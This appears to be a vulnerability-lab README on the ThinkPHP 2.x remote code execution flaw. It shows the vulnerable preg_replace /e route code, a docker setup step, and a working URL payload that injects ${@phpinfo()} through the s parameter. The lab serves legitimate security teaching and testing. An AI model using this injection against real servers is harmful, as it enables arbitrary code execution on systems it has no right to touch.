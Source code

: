 # ThinkPHP 2.x Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is a popular PHP framework widely used in China. ThinkPHP versions 2.x contain a remote code execution that caused by the `preg_replace`.

In ThinkPHP 2.x, the framework uses `preg_replace` with `/e` modifier to match routes:

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

This implementation causes user input parameters to be executed within double quotes, leading to arbitrary code execution. The vulnerability also exists in ThinkPHP 3.0 when running in Lite mode, as this issue wasn't patched in that specific mode.

## Environment Setup

Execute the following command to start a ThinkPHP 2.1 demo application:

```bash
docker compose up -d
```

After the server is started, you can visit `http://your-ip:8080/Index/Index` to see the default page.

## Vulnerability Reproduction

To exploit this vulnerability, we can inject PHP code through the URL parameters. By visiting `http://your-ip:8080/index.php?s=/index/index/name/${@phpinfo()}`, the `phpinfo()` function will be executed on the target server, demonstrating the successful exploitation of the remote code execution vulnerability:

![](1.png)
